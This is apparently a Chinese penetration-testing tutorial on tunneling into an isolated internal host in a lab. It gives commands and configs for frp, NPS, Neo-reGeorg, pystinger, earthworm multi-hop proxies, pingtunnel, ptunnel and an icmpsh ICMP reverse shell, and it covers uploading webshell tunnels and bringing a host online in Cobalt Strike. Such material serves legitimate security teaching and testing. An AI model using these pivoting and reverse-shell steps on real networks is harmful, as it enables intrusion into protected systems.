

# 隧道技术

文章首发i春秋：https://bbs.ichunqiu.com/thread-63561-1-1.html

在渗透过程中，由于环境的不同，单一的内网穿透不能覆盖所有范围，这里写一些常见的工具记录一下，后续遇到可以直接利用。

不同网络层代表工具如下：

```
网络层隧道：ICMP等--------pingtunnel
传输层隧道: TCP/UDP等----NPS
应用层隧道: HTTP/SSH等---Neo-reGeorg等
```


## 环境说明

本次有两个攻击机器，kali和win10，两个win7都启动php环境。

本次模拟攻击机通过php打进win7中转机，通过代理使攻击机访问到win7不出网机器。


中转机（192.168.101.83/192.168.12.131）的服务


不出网机器（192.168.101.82）服务


## frp

frp是一个专注于内网穿透的高性能的反向代理应用，支持 TCP、UDP、HTTP、HTTPS 等多种协议。

### 下载

[Releases · fatedier/frp (github.com)](https://github.com/fatedier/frp/releases)


### 使用

#### 服务端

这里一般用云服务器，主要就`frps`和`frps.ini`两个文件，`frps_full.ini`是说明文件，如果要修改其他配置可以参考并进行修改，下面以一个常用的配置为例。

frps.ini

```
[common] 
bind_addr = 0.0.0.0 
bind_port = 7080 
token = admin123 
dashboard_user = admin
dashboard_pwd = admin123
```

然后启动服务就好，启动前记得给好权限。

```
./frps -c frps.ini
```

#### 客户端

上传客户端时要看好目标系统是`win`还是`linux`，然后上传相对应的`frpc`文件

`frpc.ini`

```
[common]
server_addr = 服务器ip
server_port = 7080
dashboard_port = 9500 #仪表盘，访问ip:9500可以看到信息
token = admin123  #token验证，frps也要一致

[plugin_socks] 
type = tcp 
remote_port = 4566
plugin = socks5 
plugin_user = admin 
plugin_passwd = admin123 
use_encryption = true 
use_compression = true
```

这里的`server_port`要和前面的`bind_port`一致，然后下面的`remote_port`是代理要设置的端口。

如果要使用ssh，http等代理看一下文件修改一下即可。

### 局部代理

#### 浏览器

如果只需要浏览器访问，在火狐设置一下就好，例如上面的，我们输入相对应的内容即可。

`frpc.ini`

```
...
[plugin_socks] 
type = tcp 
remote_port = 4566
plugin = socks5 
plugin_user = admin 
plugin_passwd = admin123 
use_encryption = true 
use_compression = true
```

代理类型选好，这里是`socks5`，然后服务器`ip`，端口是`remote_port`和账号密码。


直接在kali通过代理访问就好不出网的机器访问就好。


#### proxychains

`linux`中，可以用`proxychains`进行局部代理，例如代理`msf`等进行下一步攻击。

首先在`/etc/proxychains.conf`中修改一下配置，选择代理的模式，然后进行修改。


扫描

```
proxychains nmap -sT -Pn 10.10.1.12 -p 80  
```

代理火狐

```
proxychains firefox http:
```

脚本代理

```
proxychains python Exp.py -u http:
proxychains python3 Exp.py -u http:
```


### 全局代理

全局代理`win`和`linux`有点区别，这里通过`frp`+`proxifier`实现全局代理的。

点击`profile`里面的`proxy servers`


点击check，如果出现success就是代理成功


然后点击`profile`里面的`proxyfication rules`


代理好浏览器直接访问不出网机器的ip就可以看到访问了。


### 实战流程

kali启动frps


中转机启动frpc


通过代理实现访问不出网机器。


## NPS

`nps`是一款轻量级、高性能、功能强大的内网穿透代理服务器。支持 `tcp`、`udp` 流量转发，可在网页上配置和管理各个`tcp`、`udp`隧道、内网站点代理，`http`、`https`解析等，功能强大，操作方便。

### 下载

[Releases · ehang-io/nps (github.com)](https://github.com/ehang-io/nps/releases)


### 使用

#### 服务端

```
./nps insatll
nps start
```

浏览器打开IP+8080端口，即可看到`nps`管理界面，用户名和密码默认是admin/123，如果要修改端口密码啥的，通过配置文件`conf`的`npc.conf`文件修改就好。


win的操作也差不多，具体操作如下。

```
nps.exe install
nps.exe start。
```

其他操作

```
nps start|stop|restart|uninstall|update or nps-update update
```

进入后台默认页面，这里的8024端口也可以通过修改配置文件更改。


然后控制台添加一个客户端，写上秘钥就好。


未上线状态


#### 客户端

这边操作就很简单，上传`npc`文件到目标及其，然后执行命令就好

```
npc.exe -server=192.168.101.82:8024 -vkey=1234
```


服务端


然后点击服务端的隧道，选择模式和端口。


火狐设置代理


浏览器访问


## Neo-reGeorg

`Neo-reGeorg`是`reDuh`的继承者，利用了会话层的socks5协议。

### 下载

[sensepost/reGeorg: The successor to reDuh, pwn a bastion webserver and create SOCKS proxies through the DMZ. Pivot and pwn. (github.com)](https://github.com/sensepost/reGeorg)

### 使用

该工具需要python环境，然后安装相对应的库。

```
pip install urllib3
```

直接运行，后面的k是密码，可以自定义，就会生成文件

```
python3 neoreg.py generate -k password
```


将生成的`php`，`jsp`等文件上传到靶机上。

攻击机执行命令

```
python3 neoreg.py -k eek -u http://192.168.101.83/tunnel.php -l 0.0.0.0 -p 8024 
```

浏览器开启代理


访问目标机器


## pystinger

`pystinger`实现内网 socks4 代理、端口映射的工具，可直接用于`CobaltStrike` ` Metasploit`上线，该工具使用python语言编写，目前支持的语言有 `php`,` jsp(x)` 和` aspx` 三种脚本语言。

**由于稳定性、速度一般，不建议优先使用，在常规正向代理没法用的时候或者想在不出网的机器上C2，可以尝试。**

### 下载

[https://github.com/FunnyWolf/pystinger](https://links.jianshu.com/go?to=https%3A%2F%2Fgithub.com%2FFunnyWolf%2Fpystinger)

### 使用

#### 服务端

将 `webshell` 上传到中转机器的目录下，能成功访问则返回 `UTF-8`。**（服务端在中转机器运行）**


同时上传server文件，并启动

```shell
./stinger_server 0.0.0.0 #linux
start stinger_server.exe 0.0.0.0 #windows
```

```
tasklist /v |findstr stinger
```



#### 客户端

攻击机执行相对应的命令

```cpp
./stinger_client -w http://192.168.101.83/proxy.php -l 0.0.0.0 -p 6000
```

此时已经在 攻击机的 6000 端口启动了一个socks4代理，同时将目标机器 60020 端口映射到攻击机上


浏览器设置


### 联动cs

这里要实现的效果，通过kali的cs上线不出网机器。

```
kali
192.168.101.82
中转机：
192.168.101.83
192.168.12.131
目标机器：
192.168.12.222
```

创建个`listener`，`ip`填中转机的不出网`ip`


然后生成马，丢到**目标机器**（192.168.12.222）,然后就可以上线了。


## earthworm

ew（earthworm）是一套便携式的网络穿透工具，具有 SOCKS v5服务架设和端口转发两大核心功能，可在复杂网络环境下完成网络穿透。该工具能够以“正向”、“反向”、“多级级联”等方式打通一条网络隧道，直达网络深处。

### 下载

```
git clone https://github.com/idlefire/ew.git
cd ew
chmod +x *
```

### 使用

```
ssocksd：用来开启Socks5代理服务

rssocks：本地启用Socks5服务，并反弹到另一IP地址

rcsocks：接收反弹过来的Socks5服务，并转向另一端口 其余的lcx链路状态用于打通测试主机同socks服务器之间的通路。
```

```
-l 开放指定端口监听

-d 指定转发或反弹的主机地址

-e 指定转发或反弹的主机端口

-f 指定连接或映射的主机地址
```

攻击机启动，监听自己本地的1080端口并转发到本地6004端口

```bash
./ew_for_linux64 -s rcsocks -l 1080 -e 6004 -t 1000000
```


中转机运行

```bash
ew_for_Win -s rssocks -d 192.168.101.82 -e 6004 -t 1000000
```


然后攻击机浏览器进行代理


访问不出网地址


### 多层代理

这里将网络拓扑加一层

```
kali
192.168.101.82
中转机：
192.168.101.83
192.168.12.131
目标机器1：
192.168.12.222
192.168.15.222
目标机器2：
192.168.15.234
```


目标通过kali可以直接访问到win10的内容，也就是看到192.168.15.234。

首先在kali，攻击机执行命令。

```
./ew_for_linux64 -s rcsocks -l 1080 -e 6004 -t 1000000
```

然后在中转机192.168.101.83（192.168.12.131）中执行命令

```
ew_for_win_32.exe -s lcx_slave -d 192.168.101.82 -e 6004 -f 127.0.0.1 -g 6005 -t 100000
```

再执行第二条命令，监听6005端口收到的来自6007的信息

```
ew_for_win_32.exe -s lcx_listen -l 6005 -e 6007 -t 1000000
```


然后在目标机器1（192.168.12.222/192.168.15.222）执行命令

```
ew_for_win_32.exe -s rssocks -d 192.168.12.131 -e 6007 -t 1000000
```

浏览器同样的代理


访问，两个目标机器的内网都能访问


后面再多几层的操作同样的。

## pingtunnel

在一些网络环境中，如果不经过认证，TCP和UDP数据包都会被拦截。如果用户可以ping通远程计算机，就可以尝试建立**ICMP**隧道，将TCP数据通过该隧道发送，实现不受限的网络访问。

### 下载

https://github.com/esrrhs/pingtunnel

### 使用

中转机器作为服务端

```
pingtunnel.exe -type server -noprint 1 -nolog 1 
```

kali攻击机作为客户端，监听4455端口开启socks代理，并把流量带到攻击机上

```
./pingtunnel  -type client -l :1080 -s 192.168.101.83 -sock5 1 -noprint 1 -nolog 1 
```

```
./pingtunnel -type client -l 127.0.0.1:7788 -s 192.168.101.83 -t 192.168.12.222:80 -tcp 1 -noprint 1 -nolog 1
```

除了sock5还有tcp/udp

socks的话浏览器设置代理，tcp直接访问127.0.0.1:7788就可以

### ptunnel 

kali自带ptunnel ，就不需要下载了。如果是其他linux系统就需要安装，安装过程比较繁琐。

这里需要的环境是中转机位`linux`，然后下载`ptunnel `。

```
-p: 指定跳板服务器 IP 地址
-lp: 监听本地 TCP 端口
-da: 指定访问目标的内网 IP 地址
-dp: 指定访问目标的端口
-m: 设置隧道最大并发数
-v: 输入内容详细级别（-1到4，其中-1为无输出，4为全部输出）
-udp: 切换使用UDP代替ICMP，代理将监听端口53（必须是 root 权限）
-x: 设置隧道密码，防止滥用（客户端和代理端必须相同）
```

kali攻击机执行命令

```
ptunnel -p 172.16.214.5 -lp 1080 -da 192.168.7.110 -dp 3389 -x  eek
```

中转机器

```
ptunnel -x eek
```

这样kali就可以访问目标机器的3389端口了。

### icmpsh

```
git clone https://github.com/inquisb/icmpsh.git #下载工具
apt-get install python-impacket # 安装依赖，或者 pip2 install impacket
sysctl -w net.ipv4.icmp_echo_ignore_all=1  #关闭本地ICMP应答
```

`icmpsh`常用命令介绍：

```
-t host            发送ping请求的主机ip地址，即攻击机的IP [该命令必须存在]
-d milliseconds    请求时间间隔（毫秒）
-o milliseconds    响应超时时间（毫秒）
-s bytes           最大数据缓冲区大小（字节）
```

攻击机能通过 ICMP 协议访问到目标主机，但是目标上有防火墙，拒绝了敏感端口比如 22、3389 端口的访问，这个时候可以使用 `icmpsh`利用 ICMP 协议建立反向 shell

```
攻击机 IP：192.168.101.82
目标机 IP：192.168.101.83
```

在kali攻击机上运行：

```
python icmpsh_m.py 192.168.101.82 192.168.101.83
```

在目标机上运行

```
./icmpsh.exe -t 192.168.101.82
```
